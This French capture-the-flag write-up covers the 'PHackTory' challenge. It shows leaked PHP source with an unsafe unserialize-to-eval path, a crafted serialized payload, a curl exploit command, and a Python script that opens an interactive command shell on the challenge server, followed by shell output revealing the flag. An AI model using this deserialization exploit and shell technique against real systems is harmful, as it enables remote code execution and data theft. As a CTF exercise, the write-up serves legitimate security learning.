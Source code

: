 # PHackTory - 256 pts

Énoncé :

> Un nouveau magasin de fabrication de chocolat ouvre en ville. 
>  Soit le premier à passer commande !
>  
>  
>  Lien du challenge : [phacktory.phack.fr](http://phacktory.phack.fr) 
>
>  Artiste : `@Eagleslam`

Le site en question semble être une page statique :

> Votre magasin se prépare pour les fêtes. 
> Les commandes ne sont pas encore ouvertes.

On dirait qu'il n'y a rien à voir... On va scanner le site pour chercher des fichiers intéressants :

```
./dirsearch.py -u http://phacktory.phack.fr/ -e php,txt,zip,html,htm
```

Bingo ! Il y a un `backup.zip` qui traîne à la racine du site !

À l'intérieur du zip, ce code PHP :

```php
<?php

include("config.php");

class PHackTory {
    public $type;
    public $quantity;

    public function __construct() {
        if(isset($_POST['type'])) {
            $this -> type = $_POST['type'];
        } else {
            $this -> order = "milky";
        }

        if(isset($_POST['quantity'])) {
            $this -> quantity = $_POST['quantity'];
        } else {
            $this -> quantity = "50";
        }
    }

    public function __wakeup() {
      global $DEBUG;

      $types = ["dark", "white", "milky", "fruity", "95%", "flag"];
      $quantities = [1, 5, 10, 25, 50, 100, "PHACK{}"];

      if (isset($this -> type) && isset($this -> quantity)) {
        if(in_array($this -> type, $types) && in_array($this -> quantity, $quantities)) {
            prepareOrder($this);
            return "Votre commande de " . $this -> quantity . " chocholats ("  . $this -> type .  ") est en préparation.";
        }
        else {
          if ($DEBUG) {
            //Affichage des variables pour deboguer. Enfin..Je crois que c'est ça que ca fait.
            eval($this -> type . ' ' . $this -> quantity);
          }

          return "Il semble y avoir un problème avec votre commande. Merde de contacter quelqu'un d'autre.";
        }
      }
    }

    public function prepareOrder(){
      // ToDo
    }
}

$a = $_GET['what'];
$b = $_POST['is'];
$c = $_POST['cool'];
$d = $_GET['the'];

?>

<!doctype html>
[...]
    <?php
      if(isset($a) && isset($b) && isset($c) && isset($d)) {
          if($d == "flag" && $a == "is") {
            if ($b > 1538) {
              $myOrder = unserialize($_GET['please']);
              return "Oui !";
            }
            else {
              return "Peut-être !";
            }
          }
          else {
            return "Certainement pas!";
          }
      }
      else {
        return "Non !";
      }
    ?>
  </body>
</html>

```

Alors là si j'étais un gros barbu je taperais la commande curl parfaite du premier coup mais il y a du GET, du POST et surtout de la déserialization alors on ne va pas se prendre la tête : on va copier le code sur un serveur web en local pour le tester dans tous les sens. On active les messages d'erreur, on remplace les `return` par des `echo` et on ajoute des `echo` dans les différentes fonctions pour voir si elles sont appelées.

 Pour accéder au `eval` vulnérable du code il faut donc :

- passer what=is et the=flag GET
- mettre un nombre plus grand que 1538 dans *is* et passer un paramètre *cool* en POST

Cela va déserializer le paramètre *please* envoyé en GET. Et la concaténation des champs *type* et *quantity* seront évaluée si *type* ou *quantity* n'est pas dans la liste hardcodée. Un comportement normal quoi x)

On exécute `echo serialize(new PHackTory);` sur notre serveur web pour voir ce que ça donne (parce que c'est quand même beaucoup plus pratique que de deviner) :

```
O:9:"PHackTory":3:{s:4:"type";N;s:8:"quantity";s:2:"50";s:5:"order";s:5:"milky";}
```

Il suffit donc de remplacer `"type"` et `"quantity"` par la chaîne que l'on veut évaluer (en s'assurant de mettre à jour la longueur des chaîne). Par exemple :

```
O:9:"PHackTory":3:{s:4:"type";s:10:"phpinfo();";s:8:"quantity";s:0:"";s:5:"order";s:5:"milky";}
```

On URL encode ça et si l'on veut respecter les conditions précédemment listées, voici la commande curl :

```
curl "http://phacktory.phack.fr/?what=is&the=flag&please=O%3A9%3A%22PHackTory%22%3A3%3A%7Bs%3A4%3A%22type%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3Bs%3A8%3A%22quantity%22%3Bs%3A0%3A%22%22%3Bs%3A5%3A%22order%22%3Bs%3A5%3A%22milky%22%3B%7D" -d "is=1539&cool=a&type=flag"
```

Et on obtient bien un gros pavé de texte qui correspond au `phpinfo();`.

Maintenant je suis perfectionniste alors je vais me faire le programme suivant pour avoir un shell :

```python
import requests

while True:
    cmd = input("$ ")
    cmd = "system('"+cmd+"');"
    serial = 'O:9:"PHackTory":3:{s:4:"type";s:'+str(len(cmd))+':"'+cmd+'";s:8:"quantity";s:0:"";s:5:"order";s:5:"milky";}'
    print(requests.post("http://phacktory.phack.fr/?what=is&the=flag&please="+serial, data={"is":"1539","cool":"","type":"flag"}).content.decode()[763:])

```

Plus qu'à profiter :)

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ ls
backup.zip
config-126546845171616835186.php
images
index.php

$ cat config-126546845171616835186.php
<?php

error_reporting(E_ERROR | E_PARSE);
$DEBUG=true;

$FLAG="PHACK{l3s_cl0Ch3s_s0nT_p4s5ees_!}";

?>
```

